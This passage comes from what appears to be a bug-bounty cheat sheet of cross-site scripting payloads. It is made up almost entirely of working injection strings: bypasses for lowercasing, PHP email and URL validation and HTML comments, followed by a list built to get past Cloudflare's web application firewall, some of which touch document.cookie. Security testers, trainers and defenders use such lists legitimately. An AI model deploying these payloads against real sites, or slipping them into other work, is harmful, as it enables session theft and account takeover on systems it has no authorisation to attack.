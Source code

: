 23. JS Lowercased Input

```html
<SCRİPT>alert(1)</SCRİPT>
```

24. PHP Email Validation Bypass

```html
<svg/onload=alert(1)>"@gmail.com
```

25. PHP URL Validation Bypass

```html
javascript://%250Aalert(1)
```

26. Inside Comments Bypass

```html
<!--><svg onload=alert(1)-->
```

## Bypass WAF

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md#bypass-waf)

1. Cloudflare

```
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg/onload={alert`1`}>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=alert%26%230000000040"1")>

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

<img ignored=() src=x onerror=prompt(1)>

<svg onx=() onload=(confirm)(1)>

```